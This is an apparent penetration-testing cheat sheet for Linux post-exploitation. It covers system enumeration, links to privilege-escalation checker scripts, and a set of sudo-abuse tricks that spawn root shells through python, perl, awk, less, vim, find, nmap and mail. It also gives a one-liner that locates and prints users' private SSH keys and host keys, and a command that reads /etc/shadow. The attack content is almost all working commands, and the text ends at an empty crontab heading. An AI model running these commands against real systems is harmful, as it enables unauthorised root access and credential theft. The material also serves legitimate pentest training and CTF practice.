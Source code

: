 # Linux-Exploitation

## Internal Enumeration

#### ID and location
```
id
pwd
```

#### OS / Version / Architecture
```
cat /etc/*-release
uname -i
uname -a
uname -r
cat /proc/version
hostnamectl | grep Kernel
lsb_release -a (Debian based OSs)
```

#### Packaged installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
```

#### Running services and network services
```
ps aux
netstat -antup
```

#### Network
```
ifconfig
ip addr show
arp -a
```

#### Search a file
```
find . -name "*.txt"
```

#### Read SSH key
```
ls -la /home /root /etc/ssh /home/*/.ssh/; locate id_rsa; locate id_dsa; find / -name id_rsa 2> /dev/null; find / -name id_dsa 2> /dev/null; find / -name authorized_keys 2> /dev/null; cat /home/*/.ssh/id_rsa; cat /home/*/.ssh/id_dsa

cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```


## Automated enumeration

<https://github.com/rebootuser/LinEnum>

<https://github.com/reider-roque/linpostexp/blob/master/linprivchecker.py>

<http://pentestmonkey.net/tools/audit/unix-privesc-check>

<https://raw.githubusercontent.com/swarley7/linuxprivchecker/master/linuxprivchecker.py>

## Sudoers - Privesc

##### Python
```
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])
```

##### Perl
```
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’
```

##### CP + Chmod
```
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit
```

##### Awk
```
awk 'BEGIN {system("/bin/bash")}'
```

##### Less
```
Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash
```

##### Vim
```
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash
```

##### Find
```
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;
```

##### Bash
```
sudo -u root /bin/bash
```

##### Nmap
```
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh
```

##### Mail
```
sudo mail --exec='!/bin/bash'
```


## Contrab - Privesc
